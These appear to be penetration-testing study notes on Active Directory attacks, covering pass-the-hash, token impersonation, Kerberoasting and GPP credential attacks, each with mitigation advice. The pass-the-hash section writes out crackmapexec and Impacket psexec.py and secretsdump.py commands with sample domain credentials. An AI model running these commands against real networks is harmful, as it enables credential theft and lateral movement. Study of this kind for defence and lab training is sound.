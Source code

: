 

### Pass the Hash / Pass the Password

```
sudo apt install crackmapexec 

crackmapexec <IP/CIDR> -u <user> -d <domain> -p <password> 

crackmapexec smb <IP/CIDR> -u <user> -H <hash> --local-auth
```


```
psexec.py marvel/fcastle:Password1@<IP>

secretsdump.py marvel/fcastle:Password1@<IP>

psexec.py "frank castle":@<IP> -hashes LMHASH:LTHASH
```

---

#### Pass attacke mitigations

Hard to completely prevent, but we can make it more difficult on an attacker:
- Limit account re-use:
  - Avoid re-using local admin password
  - Disable Guest and Administrator accounts
  - Limit who is a local administrator (least privilege)
- Utilize strong passwords:
  - The longer the better (>14 characters)
  - Avoid using common words
  - I like long sentences
- Privilege Access Management (PAM)
  - Check out/in sensitive accounts when needed
  - Automatically rotate passwords on check out and check in
  - Limits pass attacks as hash/password is strong and constantly rotated

---

### Token Impersonation

What are tokens?
- Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.

Two types:
- Delegate - Created for logging into a machine or using Remote Desktop
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script

https://www.offensive-security.com/metasploit-unleashed/fun-incognito/

#### Token Impersonation Mitigation

Mitigation Strategies:
- Limit user/group token creation permissions
- Account tiering
- Local admin restriction

---

### Kerberoasting 

https://medium.com/@Shorty420/kerberoasting-9108477279cc

#### Mitigation Strategies:
- Strong Passwords
- Least privilege

-----

### GPP Attacks 

#### Overview:
- Group Policy Preferences allowed admins to create policies using embedded credentials
- These credentials were encrypted and placed in a "cPassword"
- The key was accidentally released 
- Patched in MS14-025, but doesn't prevent previous uses

https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/




